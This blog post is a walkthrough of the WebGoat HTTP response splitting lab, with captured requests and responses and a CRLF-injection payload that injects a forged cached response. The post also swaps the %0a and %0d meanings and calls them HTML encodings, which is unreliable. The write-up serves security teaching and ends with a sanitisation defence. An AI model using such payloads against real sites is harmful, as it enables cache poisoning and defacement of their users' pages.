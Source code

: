 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:50:00 -0500
categories: coding security owasp bwa
---
```

# WebGoat Part 1: HTTP Response Splitting
The first section of WebGoat is called "General", but the main topic covered is HTTP Response Splitting. HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the HTML parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert carriage return (%0a) and linefeed (%0d) characters into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, if we immediately ask for the resource again the webserver will match this new request with the second malicious response and cache the malicious response as the proper response for the requested resource. Now all subsequent requests for the resource will be served the malicious response that we crafted.

![pwnd][success]

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

[success]:https://github.com/spencerdodd/spencerdodd.github.io/images/http_response_splitting.jpg